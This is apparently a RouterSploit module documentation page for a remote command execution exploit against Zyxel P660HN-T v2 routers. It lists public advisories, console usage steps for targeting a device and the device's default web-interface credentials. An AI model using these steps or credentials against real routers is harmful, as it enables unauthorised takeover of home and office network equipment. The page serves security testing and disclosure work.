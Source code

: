# Zyxel P660HN-T v2 RCE

## Description
Module exploits Remote Command Execution vulnerability in Zyxel P660HN-T V2 devices.If the target is vulnerable it allows to execute commands on operating system level.

## Authors
* Pedro Ribeiro <pedrib[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://seclists.org/fulldisclosure/2017/Jan/40](http://seclists.org/fulldisclosure/2017/Jan/40)
* [https://raw.githubusercontent.com/pedrib/PoC/master/advisories/zyxel_trueonline.txt](https://raw.githubusercontent.com/pedrib/PoC/master/advisories/zyxel_trueonline.txt)
* [https://blogs.securiteam.com/index.php/archives/2910](https://blogs.securiteam.com/index.php/archives/2910)

## Vulnerable devices
* Zyxel P660HN-T v2

## Usage
```
rsf > use exploits/zyxel/p660hn-t_v2_rce
rsf (Zyxel P660HN-T v2 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     supervisor           Username for the web interface
   password     zyad1234             Password for the web interface


rsf (Zyxel P660HN-T v2 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Zyxel P660HN-T v2 RCE) > run
[*] Running module...
```

